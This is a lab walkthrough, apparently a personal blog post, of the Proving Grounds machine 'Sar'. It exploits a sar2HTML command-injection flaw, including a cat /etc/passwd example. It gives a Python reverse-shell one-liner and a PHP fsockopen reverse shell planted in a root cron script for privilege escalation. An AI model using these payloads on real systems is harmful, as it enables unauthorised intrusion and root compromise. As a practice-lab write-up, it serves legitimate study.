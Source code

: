 ```yaml
---
layout: posts
author_profile: false
title: Sar Walkthrough
---
```

### A step-by-step walkthrough of the box **"Sar"** exploiting sar2HTML via Remote Code Execution (RCE)
- **Box Location:** Offensive Security Proving Grounds
- **Difficulty Rating:** Easy
- **Starting Location:** Kali VM in the same subnet

- - - 

### Step 1: Network Scanning
Perform a stealth scan of the entire subnet to identify target machine
```
nmap -sS [ip range]
```

- identify open ports
- open ip address in browser
  * shows default Apache page

- - -

### Step 2: Directory Brute Force
Perform a directory brute force

> gobuster dir -u [url] -w [path to wordlist]

- identifies robot.txt
  * text file says **sar2HTML**
  * try running in browser: http://ipaddress/sar2HTML/
  * shows that it is a tool running on the server
- - -
### Research
- Research to find **sar2HTML** exploit
  * Exploit-DB shows Sar2HTML 3.2.1 has an RCE (no CVE)
  * Exploit = *http:192.168.1.24/sar2HTML/index.php?plot=;your-command*
    * Example: **http:192.168.1.24/sar2HTML/index.php?plot=; cat /etc/passwd**
- - - 
### Now I want a reverse shell
- At least a few options:
 1. Use Python or Perl command to take reverse shell
 2. Metaploit to create a reverse connectdion file and u pload it on target using wget 
 3. If target has NetCut utility, it can take the reverse connection

### Attempt NetCut utility
  - Run nc command to see if it has output
    - > nc -help
    - any return on output means it is available (does not work here)
### Attempt Python or Perl package
  - Run python help command to verify any output
    - > python3 --help
    - This works
  - Example command used with RCE:
```
python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
```

> nc -lvp 1234
  - Gain stable shell access:
    - > python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
  - **user flag can be found here** (/home/love/Desktop/user.txt)
- - -
### Gain Root
  - Find exploits based on OS and kernel versions
    - no luck
  - Check weak file permission and processes
    - Found a **cron job** is being run as a root user
      - > cat /etc/crontab
    - Cron job = ***/5 * * * * root cd /var/www/html/ && sudo ./finally.sh**
    - Navigate to /var/www/html/ and see what is there
      - finally.sh is calling write.sh
      - write.sh is create a folder in temp directory
      - the command **ls -l** shows we can edit write.sh
      - Add a php reverse connection command into write.sh
        * > php -r ‘$sock=fsockopen(“192.168.1.20”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);’
        * IP address = attacker machine (mine)
        * Setup listener **nc -lvp 4444**
        * Wait 5 mins for cron job
  - **root flag: cat /root/root.txt**

### Echo the php script into the write.sh file
> echo "php -r '\$sock=fsockopen(\"192.168.57.200\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
- echo requires a \ in front of a $ and " (probably more)




